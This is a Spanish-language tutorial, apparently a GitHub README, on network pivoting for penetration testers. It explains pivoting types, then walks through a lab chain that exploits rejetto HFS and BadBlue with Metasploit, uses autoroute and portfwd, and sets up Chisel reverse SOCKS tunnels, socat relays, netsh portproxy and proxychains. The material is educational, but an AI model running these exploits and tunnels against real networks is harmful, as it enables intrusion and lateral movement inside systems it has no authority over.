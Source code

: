 # Pivoting en Ciberseguridad

## Introducción
El pivoting es una técnica esencial en el mundo de la ciberseguridad que implica moverse lateralmente dentro de una red comprometida para acceder a sistemas y recursos adicionales. Esta técnica es utilizada por los profesionales de seguridad para mantener y expandir el acceso a través de una infraestructura comprometida.

## ¿Qué es el Pivoting?
En términos sencillos, el pivoting se refiere a la acción de utilizar una máquina comprometida como punto de entrada para acceder a otros sistemas dentro de la red. Esta técnica es particularmente útil cuando se ha obtenido acceso a un sistema perimetral y se busca infiltrarse en segmentos de red más internos.

## Tipos de Pivoting
Existen varios tipos de pivoting en función de cómo se realiza el movimiento lateral:

- **Pivoting Directo:** Se realiza desde la máquina comprometida hacia otros sistemas dentro de la misma red.
- **Pivoting a Través de Saltos:** Implica moverse a través de múltiples máquinas comprometidas para alcanzar el objetivo deseado.
- **Pivoting en Cadena:** Consiste en conectar varios sistemas comprometidos para llegar a la red objetivo.

## Herramientas y Técnicas
Para llevar a cabo el pivoting, los profesionales de seguridad utilizan herramientas y técnicas específicas, como:

- **SSH Túneles:** Establecer conexiones seguras a través de SSH para redirigir tráfico.
- **Proxychains:** Enrutamiento de tráfico a través de una cadena de proxies.
- **Port Forwarding:** Redireccionamiento de puertos para acceder a servicios internos.
- **VPN y Socks:** Uso de VPN o servidores SOCKS para ocultar el origen del tráfico.

## Importancia en la Ciberseguridad
El pivoting es una habilidad crucial para los analistas de seguridad y los pentesters, ya que les permite comprender la amplitud de una infracción y evaluar la exposición potencial en una red comprometida. Además, ayuda a identificar y remediar posibles puntos de entrada y movimiento lateral en futuros ataques.

## Caso Práctico
![Pivoting](pivoting.png)

Esta imagen en lo personal me encanta, ilustra de manera perfecta de lo que quiere tratar el pivoting, en base a esta imagen vamos a tener una máquina víctima con IP 10.4.20.196 y otra máquina víctica con IP 10.4.20.195. El primer equipo, es vulnerable a rejetto_hfs_exec.
```python
Victim Machine 1 : 10.4.20.196
Victim Machine 2 : 10.4.20.195
nmap -sV 10.4.20.196
//tiene una vulnerabilidad en 80/tcp    open  http               HttpFileServer httpd 2.3
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.4.20.196
ipconfig
//Interface 12 vemos lo siguiente
IPv4 Address : 10.4.20.196
IPv4 Netmask : 255.255.240.0
//debemos de establecer un ruteo para leer otras IP
run autoroute -s 10.4.20.0/20
background (ahora si guardamos la sesión)
use auxiliary/scanner/portscan/tcp (para escanear puertos)
set rhosts 10.4.20.195 (IP target 2)
set PORTS 1-100
run
//veremos algo como esto
[+] 10.4.20.195:          - 10.4.20.195:80 - TCP OPEN
//retornamos a la sesion para hacer un port foward
session 1
portfwd add -l 1234 -p 80 -r 10.4.20.195 (IP del target 2)
portfwd list (para validar)
//sin cerrar metasploit ejecutamos los siguiente en una terminal
nmap -sV -sS -p 1234 localhost
1234/tcp open  http    BadBlue httpd 2.7
//hay una vulnerabalidad para eso
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS 10.4.20.195 (IP del objetivo 2)
run
background
session
(veremos 2 sesiones !!)
```

## Chisel, Socat y Proxychains
Como no hablar del favorito de todos, te permite realizar el pivoting y moverte de forma lateral por la red teniendo el control de las comunicaciones. Chisel es una herramienta que permite crear túneles TCP sobre conexiones HTTP y HTTPS. Puede ser utilizado tanto en la máquina comprometida como en la máquina atacante para establecer una comunicación segura y encriptada entre ellas. Chisel es útil para sortear restricciones de firewall y para acceder a sistemas internos desde una posición comprometida. Socat es una utilidad multipropósito que permite crear conexiones bidireccionales entre dos puntos. Puede utilizarse para redirigir tráfico, modificar datos en tránsito y más. Socat es versátil y se adapta a diversas necesidades de pivoting. Proxychains es una herramienta que permite enrutar conexiones a través de una cadena de servidores proxy. Es especialmente útil para mantener el anonimato y redirigir tráfico a través de múltiples puntos.

## Chisel

```python
./chisel server --reverse -p 1234 (servidor - tu equipo)
./chisel client 192.168.1.41:1234 R:socks (cliente - víctima)
./chisel client 10.10.0.128:2111 R:8888:socks (segundo cliente - víctima)
```

## Socat

```python
./socat TCP-LISTEN:4343,fork TCP:192.168.1.41:8080
```

## Proxychains

```python
socks5  127.0.0.1 8888
socks5  127.0.0.1 1080
```

## Netsh - Socat en Windows

```python
netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectaddress=192.168.100.128
```

Toma en cuenta lo siguiente, conforme vas aumentando los clientes con el chisel, el puerto debe de ir en el proxychains y lo pones encima del último que has agregado como se muestra en el ejemplo proporcionado.

## Pivoting con Metasploit

```python
run autoroute -s IP/24 (meterpreter)
route add [red de destino] [máscara de subred] [sesión] (metasploit , en caso no tengas sesión de meterpreter)
use auxiliary/server/socks_proxy
socks4 IP 1080 (proxychains)
```

